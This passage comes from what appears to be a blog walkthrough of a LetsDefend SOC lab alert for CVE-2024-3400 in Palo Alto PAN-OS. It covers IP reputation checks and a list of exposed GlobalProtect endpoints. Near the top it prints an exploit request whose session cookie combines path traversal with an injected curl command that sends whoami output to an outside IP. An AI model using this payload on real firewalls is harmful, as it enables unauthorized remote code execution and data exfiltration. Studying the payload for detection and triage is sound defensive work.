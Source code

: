 Putting it all together an attacker can send crafted unauthenticated HTTP requests to vulnerable PA firewalls at publicly available endpoints achieving remote code execution. This could be scripted to expand capabilities and scale of attack. As Volexity went into detail. Likely, this attack would be leveraged by TA's to move up the attack chain and obtain lateral and/or perform data exfiltration.
```shell
POST /global-protect/login.esp
Host: [target-domain/ip-address]
Cookie=SESSID=./../../../opt/panlogs/tmp/device_telemetry/hour/aaa`curl${IFS}144.172.79.92:4444?user=$(whoami)
```                                         
## LetsDefend SOC Alert Walkthrough
Remember the point of everything above was just to get a better understanding of this CVE, so when I eventually got to the alert I would understand what's happening, and can know what to look for better than just going of the information in the alert. In the real world every alert doesn't have have associated write-ups from smart researchers walking you through everything, but I feel it was worth the time in this lab environment.

### Alert Breakdown
This alert is matching a rule called `SOC274 - Palo Alto Networks PAN-OS Command Injection Vulnerability Exploitation (CVE-2024-3400)`. I think we know a little bit about that CVE by now.

Hostname is `PA-Firewall-01`.
- We can probably assume this is a Palo Alto Firewall being targeted.

Destination IP is `172.16.17.139`. 
- Probably a private IP used by our letsdefend fake company.

Source IP is `144.172.79[.]92`. 
- Public IP address used by attacker. We should check reputation.

#### Reputation Check
AbuseIPDB has one report of our source IP address as malicious for an unauthorized scraping attempt. 
![Jacob Kollasch](/palo-alto-networks-pan-os-command-injection-vulnerability-exploitation-cve-2024-3400/abuseipdb.png)

The IP is associated with an ISP called `Frantech Soulutions`. When you try to go the ISP's website you get a message that they are no longer in business. Weird, but that's probably a symptom of the letsdefend lab environment and nothing to do with the investigation.
![Jacob Kollasch](/palo-alto-networks-pan-os-command-injection-vulnerability-exploitation-cve-2024-3400/frantech-closed.png)

VirusTotal has way more reports of malicious activity for this IP address. 13/94 vendors flagged it, and they are saying the ISP is ROUTERHOSTING. Which apparently is now Cloudzy. Never heard of it, but some light googling reveals it's likely a sketchy VPS service.
![Jacob Kollasch](/palo-alto-networks-pan-os-command-injection-vulnerability-exploitation-cve-2024-3400/virus-total.png)

Lastly, the letsdefend `Threat Intel` feed says this IP is also malicious
![ld-threat-intel.png](/palo-alto-networks-pan-os-command-injection-vulnerability-exploitation-cve-2024-3400/ld-threat-intel.png)

HTTP Request Method for this alert is `POST`, and that checks out with this CVE.

Requested URL is `172.16.17.139/global-protect/login.esp` which is from the list of publicly exposed endpoints by global protect service the watchtowr researcher. 
```shell
location ~ global-protect/(prelogin|login|getconfig|getconfig_csc|satelliteregister|getsatellitecert|getsatelliteconfig|getsoftwarepage|logout|logout_page|gpcontent_error|get_app_info|getmsi|portal\\/portal|portal/consent).esp$ {
    include gp_rule.conf;
    proxy_pass   http://$server_addr:20177;
}
```
